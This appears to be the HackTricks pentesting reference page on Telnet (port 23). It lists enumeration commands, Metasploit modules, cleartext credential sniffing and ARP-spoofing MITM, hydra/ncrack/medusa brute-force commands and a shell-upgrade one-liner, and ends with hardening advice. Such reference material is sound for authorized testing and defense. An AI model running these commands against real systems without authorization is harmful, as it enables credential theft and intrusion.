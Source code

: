 # 23 - Pentesting Telnet



## **Basic Information**

Telnet is a network protocol that gives users a UNsecure way to access a computer over a network.

**Default port:** 23

```
23/tcp open  telnet
```
```
## **Enumeration**

### **Banner Grabbing**

```bash
nc -vn <IP> 23
```
```
All the interesting enumeration can be performed by **nmap**:

```bash
nmap -n -sV -Pn --script "*telnet* and safe" -p 23 <IP>
```
```
The script `telnet-ntlm-info.nse` will obtain NTLM info (Windows versions).

From the [[https://datatracker.ietf.org/doc/html/rfc854): In the TELNET Protocol are various "**options**" that will be sanctioned and may be used with the "**DO, DON'T, WILL, WON'T**" structure to allow a user and server to agree to use a more elaborate (or perhaps just different|telnet RFC]] set of conventions for their TELNET connection. Such options could include changing the character set, the echo mode, etc.

**I know it is possible to enumerate this options but I don't know how, so let me know if know how.**

### [[../generic-hacking/brute-force.md#telnet|Brute force]]

## Config file

```bash
/etc/inetd.conf
/etc/xinetd.d/telnet
/etc/xinetd.d/stelnet
```
```
## HackTricks Automatic Commands

```
Protocol_Name: Telnet    #Protocol Abbreviation if there is one.
Port_Number:  23     #Comma separated if there is more than one.
Protocol_Description: Telnet          #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for t=Telnet
  Note: |
    wireshark to hear creds being passed
    tcp.port == 23 and ip.addr != myip

    https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-telnet.html

Entry_2:
  Name: Banner Grab
  Description: Grab Telnet Banner
  Command: nc -vn {IP} 23

Entry_3:
  Name: Nmap with scripts
  Description: Run nmap scripts for telnet
  Command: nmap -n -sV -Pn --script "*telnet*" -p 23 {IP}

Entry_4:
  Name: consoleless mfs enumeration
  Description: Telnet enumeration without the need to run msfconsole
  Note: sourced from https://github.com/carlospolop/legion
  Command: msfconsole -q -x 'use auxiliary/scanner/telnet/telnet_version; set RHOSTS {IP}; set RPORT 23; run; exit' && msfconsole -q -x 'use auxiliary/scanner/telnet/brocade_enable_login; set RHOSTS {IP}; set RPORT 23; run; exit' && msfconsole -q -x 'use auxiliary/scanner/telnet/telnet_encrypt_overflow; set RHOSTS {IP}; set RPORT 23; run; exit' && msfconsole -q -x 'use auxiliary/scanner/telnet/telnet_ruggedcom; set RHOSTS {IP}; set RPORT 23; run; exit'

```
```
### Recent Vulnerabilities (2022-2025)

* **CVE-2024-45698 – D-Link Wi-Fi 6 routers (DIR-X4860)**: The built-in Telnet service accepted hard-coded credentials and failed to sanitise input, allowing unauthenticated remote RCE as root via crafted commands on port 23. Fixed in firmware ≥ 1.04B05.
* **CVE-2023-40478 – NETGEAR RAX30**: Stack-based buffer overflow in the Telnet CLI `passwd` command lets an adjacent attacker bypass authentication and execute arbitrary code as root.
* **CVE-2022-39028 – GNU inetutils telnetd**: A two-byte sequence (`0xff 0xf7` / `0xff 0xf8`) triggers a NULL-pointer dereference that can crash `telnetd`, resulting in a persistent DoS after several crashes.

Keep these CVEs in mind during vulnerability triage—if the target is running an un-patched firmware or legacy inetutils Telnet daemon you may have a straight-forward path to code-execution or a disruptive DoS.

### Sniffing Credentials & Man-in-the-Middle

Telnet transmits everything, including credentials, in **clear-text**. Two quick ways to capture them:

```bash
# Live capture with tcpdump (print ASCII)
sudo tcpdump -i eth0 -A 'tcp port 23 and not src host $(hostname -I | cut -d" " -f1)'

# Wireshark display filter
 tcp.port == 23 && (telnet.data || telnet.option)
```
```For active MITM, combine ARP spoofing (e.g. `arpspoof`/`ettercap`) with the same sniffing filters to harvest passwords on switched networks.

### Automated Brute-force / Password Spraying

```bash
# Hydra (stop at first valid login)
hydra -L users.txt -P rockyou.txt -t 4 -f telnet://<IP>

# Ncrack (drop to interactive session on success)
ncrack -p 23 --user admin -P common-pass.txt --connection-limit 4 <IP>

# Medusa (parallel hosts)
medusa -M telnet -h targets.txt -U users.txt -P passwords.txt -t 6 -f
```
```Most IoT botnets (Mirai variants) still scan port 23 with small default-credential dictionaries—mirroring that logic can quickly identify weak devices.

### Exploitation & Post-Exploitation

Metasploit has several useful modules:

* `auxiliary/scanner/telnet/telnet_version` – banner & option enumeration.
* `auxiliary/scanner/telnet/brute_telnet` – multithreaded bruteforce.
* `auxiliary/scanner/telnet/telnet_encrypt_overflow` – RCE against vulnerable Solaris 9/10 Telnet (option ENCRYPT handling).
* `exploit/linux/mips/netgear_telnetenable` – enables telnet service with a crafted packet on many NETGEAR routers.

After a shell is obtained remember that **TTYs are usually dumb**; upgrade with `python -c 'import pty;pty.spawn("/bin/bash")'` or use the [[/generic-hacking/reverse-shells/full-ttys.md|HackTricks TTY tricks]].

### Hardening & Detection (Blue team corner)

1. Prefer SSH and disable Telnet service completely.  
2. If Telnet is required, bind it to management VLANs only, enforce ACLs and wrap the daemon with TCP wrappers (`/etc/hosts.allow`).  
3. Replace legacy `telnetd` implementations with `ssl-telnet` or `telnetd-ssl` to add transport encryption, but **this only protects data-in-transit—password-guessing remains trivial**.  
4. Monitor for outbound traffic to port 23; compromises often spawn reverse shells over Telnet to bypass strict-HTTP egress filters.

## References

* D-Link Advisory – CVE-2024-45698 Critical Telnet RCE.  
* NVD – CVE-2022-39028 inetutils `telnetd` DoS.




